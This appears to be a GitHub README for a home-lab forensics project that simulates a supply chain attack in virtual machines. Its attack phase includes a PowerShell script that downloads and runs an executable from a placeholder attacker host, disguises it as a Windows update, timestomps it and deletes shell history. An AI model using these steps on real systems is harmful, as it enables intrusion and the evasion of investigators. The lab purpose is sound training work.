# 🛠️ Investigating a Nation-State Supply Chain Attack with Multi-Layered Evasion Techniques

## 🌍 Scenario
 A multinational corporation has been compromised by a **nation-state actor** 🕵️.
 The breach has persisted **undetected for over a year**, affecting **thousands of endpoints**.
 Advanced **evasion techniques** were used to cover tracks. Your mission: **Investigate & Contain**.

# 🚨 Adversary Tactics:
 🏴‍☠️ Living-off-the-Land (LotL)  → Abusing system tools (PowerShell, WMI) for stealth.
 🔒 Encrypted C2 Channels       → DNS tunneling, domain fronting, covert HTTP/S beaconing.
 📆 Timestomping & Log Wiping   → Modifying timestamps & deleting forensic traces.
 💣 Ransomware Distraction      → Encrypting systems to divert incident response teams.

## 🔍 Objective
 🎯 **Your task**: Lead the forensic investigation and uncover the full attack chain.
    ├── 🔹 Identify the **initial entry point** (Was it a trojanized update? A supply chain backdoor?)
    ├── 🔹 Map the **scope of compromise** (Which systems? Lateral movement paths?)
    ├── 🔹 Attribute the **threat actor** (APT, financially motivated group, or insider?)
    ├── 🔹 Provide **actionable defense strategies** (How do we prevent this next time?)

## 🛠️ Tools & Techniques
 🖥️ Memory Forensics  → Volatility 🧠 for RAM analysis.
 🔬 Malware Analysis   → REMnux 🔎 for reverse engineering suspicious binaries.
 🌐 Network Forensics  → Wireshark 📡 & Zeek to analyze C2 traffic.
 📜 Log Analysis       → Hunting for **deleted logs & modified timestamps**.

## 📝 Notes:
 This project **simulates a real-world forensic case study** 🎭.
$ Findings will be **documented, analyzed, and structured** into a comprehensive report 📑.
$ All results will be **organized for a polished GitHub portfolio showcase** 🚀.

🏗️ Project Structure:
📂 Phase 1-2: Research & Lab Setup
📂 Phase 3: Attack Simulation & Deployment
📂 Phase 4: Incident Response & Forensic Analysis (Pending)
📂 Phase 5: Documentation & GitHub Presentation (Pending)


## PHASE 1: PLANNING & RESEARCH ##

✅ Define Objectives:
- Identify how supply chain attacks occur and how adversaries maintain persistence.
- Understand anti-forensic techniques (log wiping, timestomping, obfuscation).
- Practice DFIR skills in malware analysis, memory forensics, and network forensics.
- Simulate a realistic supply chain attack for investigation.

📖 Research Targets:
1️⃣ Real-World Supply Chain Attacks:
   - SolarWinds Attack (APT29)
   - Kaseya VSA Ransomware Attack
   - CCleaner Supply Chain Attack

2️⃣ Evasion and Anti-Forensics Techniques:
   - Fileless Malware (PowerShell, WMI, Living-off-the-Land Binaries)
   - Timestomping (Altering timestamps to evade forensic tools)
   - Log Tampering (Deleting or modifying logs)
   - C2 Communication Obfuscation (DNS tunneling, domain fronting)

📌 Reference Materials:
- MITRE ATT&CK - Supply Chain Compromise
- MITRE ATT&CK - Defense Evasion
- SANS DFIR Blogs
- TryHackMe: Supply Chain Attack Room (Optional Hands-On)

  ## PHASE 2: LAB SETUP ##

✅ Select Virtual Machine Manager:
- VirtualBox (Recommended, Free & Open-Source)
- VMware Workstation Player (Better Networking, No Snapshots in Free Version)
- Proxmox (Advanced Users, Requires Dedicated Hardware)
- Hyper-V (Windows Only, Fast but Limited Linux Support)

📌 Required Virtual Machines:
1️⃣ Victim Machines:
   - Windows 10/11 VM (Simulates an enterprise workstation)
   - Ubuntu 22.04 Server (Simulates a software vendor's build server)

2️⃣ Attacker Machine:
   - Kali Linux (Simulates the nation-state attacker)

3️⃣ Forensic Workstations:
   - SIFT Workstation (Digital Forensics)
   - REMnux (Malware Analysis)

✅ Steps to Install Virtual Machines:
1. Download the Prebuilt VM Images:
   - Windows 10: Microsoft Developer VM
   - Ubuntu: Ubuntu Prebuilt VM
   - Kali Linux: Kali Prebuilt VM
   - SIFT Workstation: SANS SIFT VM
   - REMnux: REMnux VM

2. Import into VirtualBox:
   VBoxManage import Kali-Linux.ova
   VBoxManage import Windows10.ova
   VBoxManage import Ubuntu22.ova
   VBoxManage import SIFT.ova
   VBoxManage import REMnux.ova

3. Configure Network Settings:
   - NAT Network: VMs communicate but are isolated from the host
   VBoxManage natnetwork add --netname NATNetwork --network 192.168.56.0/24 --enable

4. Assign Network to Each VM:
   VBoxManage modifyvm "Kali-Linux" --nic1 natnetwork --nat-network1 "NATNetwork"
   VBoxManage modifyvm "Windows10" --nic1 natnetwork --nat-network1 "NATNetwork"
   VBoxManage modifyvm "Ubuntu22" --nic1 natnetwork --nat-network1 "NATNetwork"
   VBoxManage modifyvm "SIFT" --nic1 natnetwork --nat-network1 "NATNetwork"
   VBoxManage modifyvm "REMnux" --nic1 natnetwork --nat-network1 "NATNetwork"

📸   
📌 *Prebuilt VM images downloaded.*
📸   
📌 *Virtual machines successfully imported into VirtualBox.*
📸   
📌 *Configured VM settings for memory, CPU, and network.*
📸   
📌 *NAT Network configured to allow communication between VMs.*

## PHASE 3: ATTACK SIMULATION & DEPLOYMENT ##
  
📌 *Flowchart illustrating the entire nation-state supply chain attack process, from initial compromise to forensic evasion techniques.*

#### **Attack Flow Breakdown**
The above **flowchart** provides a structured view of the **advanced supply chain attack**:

1️⃣ **Initial Compromise**  
   - Attackers **steal VPN credentials** or **phish employees**.  
   - A **Cobalt Strike beacon** is deployed to establish a foothold.  
   - The **malicious payload injection begins**.

2️⃣ **Compromising the Software Vendor**  
   - Attackers target the **vendor’s build system** (often Jenkins CI/CD).  
   - If successful, they gain **code-signing keys** and inject a **backdoored update**.

3️⃣ **Malicious Update Deployment**  
   - The update is **delivered to customers**, disguised as legitimate.  
   - If the user **installs the update**, the backdoor **executes** and gains persistence.

4️⃣ **Post-Exploitation & Privilege Escalation**  
   - Attackers execute **stealthy commands** and move laterally.  
   - **Active Directory enumeration** occurs to escalate privileges.

5️⃣ **Exfiltration or Destruction**  
   - If valuable data is found, it is **encrypted & exfiltrated** via SCP/DNS tunneling.  
   - If no valuable data exists, attackers may deploy **ransomware or a wiper attack**.

6️⃣ **Anti-Forensics & Evasion**  
   - Attackers **clear event logs** and **modify timestamps**.  
   - Fake logs are **inserted** to mislead forensic investigators.  
   - The trojanized update is **deleted** to erase traces.

✅ Step 1: Create Fake IT Software Update
📌 Generate a benign software update before modifying it for deployment.
```
vim fake_update.py
```

# Paste the following script inside vim:
```
import time
print("Updating Software...")
time.sleep(3)
print("Update Successful!")
input("Press Enter to exit...")
```
📌 Save the file and test it:
```
python fake_update.py
```

   
📌 *CMD running the fake software update script (fake_update.py).*


✅ Step 2: Convert Fake Update to Executable
```
pyinstaller --onefile fake_update.py
mv dist/fake_update.exe C:\IT_Updates\Windows_Update_KB5023152.exe
```

  
📌 *CMD showing successful compilation of fake_update.exe.*

✅ Step 3: IT Department Access
```
secedit /export /cfg C:\Users\Public\Local_Security_Policies.inf
notepad C:\Users\Public\Local_Security_Policies.inf

Get-WmiObject -Class Win32_Product | Select-Object Name, Version, Vendor
Get-WmiObject -Query "SELECT * FROM Win32_QuickFixEngineering" | Format-Table -AutoSize
```

  
📌 *PowerShell output displaying local security policies, installed software, and updates.*

✅ Step 4: Modify IT Deployment Script
```
vim update.ps1
```

# Paste the following PowerShell script:
```
$url = "http://<ATTACKER-IP>:8080/Windows_Update_KB5023152.exe"
$output = "C:\ProgramData\Windows_Update_KB5023152.exe"
Invoke-WebRequest -Uri $url -OutFile $output
Start-Process -FilePath $output -NoNewWindow -Wait
```

📌 Save and run:
```
powershell -ExecutionPolicy Bypass -File update.ps1
```

  
📌 *PowerShell executing the IT department deployment script (update.ps1).*

✅ Step 5: Verify Execution on Victim Machine
```
dir C:\ProgramData\
tasklist | findstr Windows_Update
Get-EventLog -LogName System | Select-String "Windows Update"
```

  
📌 *CMD confirming the execution of Windows_Update_KB5023152.exe on the victim machine.*

✅ Step 6: Modify Metadata to Hide Attack
```
(Get-Item "C:\ProgramData\Windows_Update_KB5023152.exe").CreationTime=("2023-12-01 10:00:00")
(Get-Item "C:\ProgramData\Windows_Update_KB5023152.exe").LastWriteTime=("2023-12-01 10:00:00")
(Get-Item "C:\ProgramData\Windows_Update_KB5023152.exe").LastAccessTime=("2023-12-01 10:00:00")
```

  
📌 *File Explorer displaying the modified timestamps of the fake update to blend in.*

✅ Step 7: Covering Tracks
```
del update.ps1
Remove-Item -Path (Get-PSReadlineOption).HistorySavePath
```

  
📌 *CMD showing log deletion and cleanup to erase forensic traces.*
